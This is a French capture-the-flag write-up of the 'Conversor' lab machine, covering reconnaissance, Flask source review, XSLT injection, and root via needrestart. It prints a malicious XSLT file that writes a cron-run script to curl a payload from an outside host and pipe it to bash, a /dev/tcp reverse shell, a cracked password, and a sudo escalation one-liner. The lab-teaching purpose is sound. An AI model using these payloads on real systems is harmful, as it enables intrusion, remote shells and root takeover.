Conversor est une machine Linux de difficulté facile qui héberge une application web permettant de convertir des documents XML en documents HTML formatés visuellement à l'aide de feuilles de style XSLT. En créant un compte et en analysant le code source téléchargeable, on découvre que l'application traite des fichiers XSLT fournis par l'utilisateur sans vérification adéquate, ce qui entraîne une vulnérabilité d'**injection XSLT**. Cela nous permet d'écrire un script Python malveillant dans un répertoire côté serveur, exécuté périodiquement par une **cronjob**, ce qui nous donne un shell initial en tant que `www-data`. L'énumération du répertoire de l'application révèle un fichier de base de données SQLite contenant des identifiants utilisateurs, à partir desquels on extrait et craque un hash de mot de passe MD5 pour obtenir un accès SSH valide en tant qu'utilisateur `fismathack`. Pour l'élévation de privilèges, la machine met en évidence une règle sudo mal configurée autorisant l'exécution de `needrestart`, permettant une exécution de code via un fichier de configuration PERL passé en paramètre nous permettant ainsi d'obtenir les privilèges root.


# Reconnaissance
## Nmap
Je commence la reconnaissance par un scan TCP complet. Deux ports sont ouverts:
- 22 pour le SSH
- 80 pour le HTTP avec le domaine `conversor.htb`.
```js
Conversor ➤ nmap --min-rate 2000 -sT -sVC -p- 10.129.78.103 -oA nmap
Starting Nmap 7.93 ( https://nmap.org ) at 2025-10-25 21:22 CEST
Warning: 10.129.78.103 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.129.78.103
Host is up (0.024s latency).
Not shown: 61492 closed tcp ports (conn-refused), 4041 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 0174263947bc6ae2cb128b71849cf85a (ECDSA)
|_  256 3a1690dc74d8e3c45136e208062617ee (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://conversor.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: conversor.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


## Site Web - TCP 80
Il y a une page de connexion classique.




### /register
Ainsi qu'une page inscription classique.




### Page d'erreur 404
Il s'agit d'une application **Flask** en accédant à une page qui n'existe pas afin d'afficher le message d'erreur.




# Shell en tant que www-data
## Connexion au site
Je me connecte et je télécharge le Template fournit. Il peut être téléchargé même sans connexion.



Je vois qu'il s'agit d'un template d'affichage de résultat de scan de ports. Ce qui me sera utile ici car j'ai déjà enregistré le résultat de mon scan nmap sous format XML.



J'uploade alors le fichier nmap sous format XML ainsi que le template fourni.


Après upload des deux fichiers, j'obtiens un lien juste en bas de la page. Cliquer sur ce lien me redirige vers cette page où je peux visualiser sous forme de tableau le résultat de mon scan.



La page **/about** contient un lien de téléchargement d'une archive contenant le code source de l'application.


J'extrais le contenu de l'archive.
```js
[root@exegol-htb-labs] /workspace/Conversor/code-source
❯ tar xvf source_code.tar.gz
app.py
app.wsgi
install.md
instance/
instance/users.db
scripts/
static/
static/images/
static/images/david.png
static/images/fismathack.png
static/images/arturo.png
static/nmap.xslt
static/style.css
templates/
templates/register.html
templates/about.html
templates/index.html
templates/login.html
templates/base.html
templates/result.html
uploads/
```

Le fichier **install.md** contient quelque d'intéressant. Il existe une **crontab** qui exécute des scripts python se trouvant dans le répertoire `/var/www/conversor.htb/scripts/` toutes les minutes.



Voici le code complet du fichier **app.py**. La fonction `convert` permet à un utilisateur authentifié de transformer un fichier XML en HTML en appliquant une feuille de style XSLT. Elle sauvegarde les fichiers uploadés, effectue la transformation, stocke le résultat HTML généré et enregistre les métadonnées en base de données avant de rediriger vers l'accueil. Un truc qui est intéressant est que :
- La fonction configure le parser XML avec des options de sécurité contre les XXE (`resolve_entities=False`, `no_network=True`)
- Il n'y a aucune protection contre les injections XSLT
- Pas de validation des types de fichiers uploadés
- Pas de nettoyage des fichiers temporaires

```python
from flask import Flask, render_template, request, redirect, url_for, session, send_from_directory
import os, sqlite3, hashlib, uuid

app = Flask(__name__)
app.secret_key = 'Changemeplease'

BASE_DIR = os.path.dirname(os.path.abspath(__file__))
DB_PATH = '/var/www/conversor.htb/instance/users.db'
UPLOAD_FOLDER = os.path.join(BASE_DIR, 'uploads')
os.makedirs(UPLOAD_FOLDER, exist_ok=True)

def init_db():
    os.makedirs(os.path.join(BASE_DIR, 'instance'), exist_ok=True)
    conn = sqlite3.connect(DB_PATH)
    c = conn.cursor()
    c.execute('''CREATE TABLE IF NOT EXISTS users (
        id INTEGER PRIMARY KEY AUTOINCREMENT,
        username TEXT UNIQUE,
        password TEXT
    )''')
    c.execute('''CREATE TABLE IF NOT EXISTS files (
        id TEXT PRIMARY KEY,
        user_id INTEGER,
        filename TEXT,
        FOREIGN KEY(user_id) REFERENCES users(id)
    )''')
    conn.commit()
    conn.close()

init_db()

def get_db():
    conn = sqlite3.connect(DB_PATH)
    conn.row_factory = sqlite3.Row
    return conn

@app.route('/')
def index():
    if 'user_id' not in session:
        return redirect(url_for('login'))
    conn = get_db()
    cur = conn.cursor()
    cur.execute("SELECT * FROM files WHERE user_id=?", (session['user_id'],))
    files = cur.fetchall()
    conn.close()
    return render_template('index.html', files=files)

@app.route('/register', methods=['GET','POST'])
def register():
    if request.method == 'POST':
        username = request.form['username']
        password = hashlib.md5(request.form['password'].encode()).hexdigest()
        conn = get_db()
        try:
            conn.execute("INSERT INTO users (username,password) VALUES (?,?)", (username,password))
            conn.commit()
            conn.close()
            return redirect(url_for('login'))
        except sqlite3.IntegrityError:
            conn.close()
            return "Username already exists"
    return render_template('register.html')
@app.route('/logout')
def logout():
    session.clear()
    return redirect(url_for('login'))


@app.route('/about')
def about():
 return render_template('about.html')

@app.route('/login', methods=['GET','POST'])
def login():
    if request.method == 'POST':
        username = request.form['username']
        password = hashlib.md5(request.form['password'].encode()).hexdigest()
        conn = get_db()
        cur = conn.cursor()
        cur.execute("SELECT * FROM users WHERE username=? AND password=?", (username,password))
        user = cur.fetchone()
        conn.close()
        if user:
            session['user_id'] = user['id']
            session['username'] = username
            return redirect(url_for('index'))
        else:
            return "Invalid credentials"
    return render_template('login.html')


@app.route('/convert', methods=['POST'])
def convert():
    if 'user_id' not in session:
        return redirect(url_for('login'))
    xml_file = request.files['xml_file']
    xslt_file = request.files['xslt_file']
    from lxml import etree
    xml_path = os.path.join(UPLOAD_FOLDER, xml_file.filename)
    xslt_path = os.path.join(UPLOAD_FOLDER, xslt_file.filename)
    xml_file.save(xml_path)
    xslt_file.save(xslt_path)
    try:
        parser = etree.XMLParser(resolve_entities=False, no_network=True, dtd_validation=False, load_dtd=False)
        xml_tree = etree.parse(xml_path, parser)
        xslt_tree = etree.parse(xslt_path)
        transform = etree.XSLT(xslt_tree)
        result_tree = transform(xml_tree)
        result_html = str(result_tree)
        file_id = str(uuid.uuid4())
        filename = f"{file_id}.html"
        html_path = os.path.join(UPLOAD_FOLDER, filename)
        with open(html_path, "w") as f:
            f.write(result_html)
        conn = get_db()
        conn.execute("INSERT INTO files (id,user_id,filename) VALUES (?,?,?)", (file_id, session['user_id'], filename))
        conn.commit()
        conn.close()
        return redirect(url_for('index'))
    except Exception as e:
        return f"Error: {e}"

@app.route('/view/<file_id>')
def view_file(file_id):
    if 'user_id' not in session:
        return redirect(url_for('login'))
    conn = get_db()
    cur = conn.cursor()
    cur.execute("SELECT * FROM files WHERE id=? AND user_id=?", (file_id, session['user_id']))
    file = cur.fetchone()
    conn.close()
    if file:
        return send_from_directory(UPLOAD_FOLDER, file['filename'])
    return "File not found"
```
## RCE via écriture de fichiers
Une petite recherche Google et je sur [PayloadAllTheThings](https://swisskyrepo.github.io/PayloadsAllTheThings/XSLT%20Injection/#write-files-with-exslt-extension), comment faire de l'injection de fichier XSLT. Je crée un fichier malveillant `shell.xslt` avec le contenu suivant :

```xml
╭─root@exegol-labs /workspace/Machines/Conversor
╰─# cat shell.xslt
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet
  xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
  xmlns:exploit="http://exslt.org/common" 
  extension-element-prefixes="exploit"
  version="1.0">
  <xsl:template match="/">
    <exploit:document href="/var/www/conversor.htb/scripts/exploit.py" method="text">import os; os.system("curl 10.10.16.76:8000/poc.sh|bash")
    </exploit:document>
  </xsl:template>
</xsl:stylesheet>
```

Je crée le fichier poc.sh avec le payload de reverse shell basique.

```js
#!/bin/bash
bash -i >& /dev/tcp/10.10.16.76/9001 0>&1
```

Je démarre un serveur HTTP sur le port **8000**.

```js
python3 -m http.server
```

J'upload ensuite les fichiers XML ainsi que mon fichier XSLT malveillant.



J'obtiens après quelques secondes un shell en tant que `www-data`.



# Shell en tant que fismathack
## Énumérer la DB SQLite 3
Comme vu dans le code source, la DB se trouve dans le fichier `/var/www/conversor.htb/instance/users.db`. J'y récupère le hash de l'utilisateur `fismathack`.
```js
bash-5.1$ pwd
pwd
/var/www/conversor.htb/instance
bash-5.1$ ls
ls
users.db
bash-5.1$ sqlite3 users.db .dump
sqlite3 users.db .dump
PRAGMA foreign_keys=OFF;
BEGIN TRANSACTION;
CREATE TABLE users (
        id INTEGER PRIMARY KEY AUTOINCREMENT,
        username TEXT UNIQUE,
        password TEXT
    );
INSERT INTO users VALUES(1,'fismathack','5b5c3ac3a1c897c94caad48e6c71fdec');
INSERT INTO users VALUES(5,'z3rodol','5f4dcc3b5aa765d61d8327deb882cf99');
```

Je récupère mot de passe `Keepmesafeandwarm` sur [crackstation](http://crackstation.net).



## Connexion SSH
Je me connecte alors en SSH avec les identifiants valides.
```js
╭─root@exegol-labs /workspace/Machines/Conversor
╰─# ssh fismathack@conversor.htb
fismathack@conversor.htb's password:
--SNIP--
-bash-5.1$ id
uid=1000(fismathack) gid=1000(fismathack) groups=1000(fismathack)
-bash-5.1$ ls
user.txt
-bash-5.1$ cat user.txt
525*****************************
```

# Shell en tant que root
## Needrestart
`fismathack` peut exécuter `/usr/sbin/needrestart` avec sudo.
```js
-bash-5.1$ sudo -l
Matching Defaults entries for fismathack on conversor:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User fismathack may run the following commands on conversor:
    (ALL : ALL) NOPASSWD: /usr/sbin/needrestart
```

Sur [GTFOBins](https://gtfobins.org/gtfobins/needrestart/), comme en regardant l'aide de l'outil, il est possible d'exécuter des commandes en passant en paramètre un fichier de configuration contenant du code en langage PERL.
```js
sudo /usr/sbin/needrestart --help
```



Dans mon cas, j'ai remarqué que c'était tout de même possible de le faire en fournissant du code bash.
```js
echo 'system("/bin/bash")' > rootme.sh
sudo /usr/sbin/needrestart -c rootme.sh
```



